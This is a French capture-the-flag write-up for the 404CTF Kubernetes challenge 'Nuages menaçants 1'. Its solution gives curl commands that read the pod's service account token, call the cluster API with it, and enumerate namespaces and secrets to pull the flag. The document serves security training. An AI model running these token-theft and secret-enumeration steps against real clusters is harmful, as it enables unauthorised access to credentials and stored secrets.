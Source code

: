 # Nuages menaçants 1

## Challenge

```
 Les nuages menaçants 1/3

Vous prenez une pause bien méritée et vous vous asseyez à une table. Vous regardez les nuages quand un homme s'approche de vous :
« Vous aussi les nuages vous passionnent ? Je vous proposerai bien une madeleine, mais c'est ma dernière... Mais j'oublie l'essentiel : je suis Marcel Proust. »
Il prend quelques minutes pour contempler les nuages, puis il reprend :
« Les nuages m'ont toujours passionné... J'ai entendu parler d'un nouveau type de nuage récemment, pouvez-vous me donner ses secrets ? »

 
Connectez-vous au nuage avec le mot de passe suivant : 4GqWrNkNuN
Le challenge peut prendre quelques minutes à se lancer.
ssh 404ctf@challenges.404ctf.fr -p 30905
```

## Solution

Si on affiche l'environnement :

```sh
$ env
# ...
KUBERNETES_SERVICE_PORT_HTTPS=443                                                                        
KUBERNETES_SERVICE_PORT=443
HOSTNAME=start
CACERT=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
PWD=/
NAMESPACE=default
HOME=/root
KUBERNETES_PORT_443_TCP=tcp://10.43.0.1:443
KUBERNETES_PORT_443_TCP_PROTO=tcp
KUBERNETES_PORT_443_TCP_ADDR=10.43.0.1
SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
KUBERNETES_SERVICE_HOST=10.43.0.1
KUBERNETES_PORT=tcp://10.43.0.1:443
KUBERNETES_PORT_443_TCP_PORT=443
APISERVER=10.43.0.1:443
# ...
```

On se trouve en fait dans un pod !

https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/abusing-roles-clusterroles-in-kubernetes

https://kubernetes.io/docs/tasks/run-application/access-api-from-pod/

curl est disponible.

On peut récupérer le token admin de l'API Kube, puis requêter l'API:

```sh
export APISERVER=${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT_HTTPS}
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
export CACERT=${SERVICEACCOUNT}/ca.crt
alias kurl="curl --cacert ${CACERT} --header \"Authorization: Bearer ${TOKEN}\""
# kube api info (cidr and services ips)
kurl -v https://$APISERVER/api
# lister ses permissions depuis le pod
kurl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' \
    --data-binary $'{\"kind\":\"SelfSubjectRulesReview\",\"apiVersion\":\"authorization.k8s.io/v1\",\"metadata\":{\"creationTimestamp\":null},\"spec\":{\"namespace\":\"default\"},\"status\":{\"resourceRules\":null,\"nonResourceRules\":null,\"incomplete\":false}}\x0a' \
    "https://$APISERVER/apis/authorization.k8s.io/v1/selfsubjectrulesreviews"
#> permissions ...
```

Lister les namespaces :

```sh
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/namespaces/
```

il y a un namespace 404ctf.
Lister ses secrets :

```sh
# list secrets
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/namespaces/404ctf/secrets
```

Le flag est dans le secret "flag" ;)